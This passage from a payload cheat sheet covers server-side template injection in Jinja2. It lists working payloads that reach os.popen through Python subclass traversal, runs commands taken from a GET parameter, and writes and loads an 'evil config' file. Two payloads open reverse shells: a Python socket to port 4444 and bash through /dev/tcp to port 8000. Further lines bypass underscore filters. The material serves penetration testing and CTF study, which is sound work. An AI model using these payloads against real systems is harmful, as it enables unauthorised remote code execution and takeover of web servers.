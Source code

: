#### Exploit the SSTI by calling Popen without guessing the offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Simply modification of payload to clean up output and facilitate command input (https://twitter.com/SecGus/status/1198976764351066113)
In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### Exploit the SSTI by writing an evil config file.

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```

### Jinja2 - Filter bypass

```python
request.__class__
request["__class__"]
```

Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`
